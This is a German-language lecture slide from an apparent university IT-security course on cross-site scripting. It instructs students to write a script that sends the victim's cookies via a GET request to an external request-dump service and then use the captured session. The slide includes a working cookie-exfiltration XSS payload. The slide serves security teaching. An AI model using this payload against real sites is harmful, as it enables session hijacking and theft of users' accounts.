

# Cross-Site Scripting (XSS)
Nun kombinieren wir alles:

Erstelle ein JS-Script, welches einen GET-Request an Deine Toilette sendet.
<script>$.get('https://ptsv2.com/t/ll80z-1234567890/post?leckerkekse=' + document.cookie);</script>
Verwende eine der beiden Möglichkeiten um dieses JS-Script an Dein Opfer zu senden!
Schau in Deinen Toiletten-Dump und kopiere die Session Deines Opfers.
09.06.2022
FH Salzburg  ·  ITS  ·  Georg Schäfer
14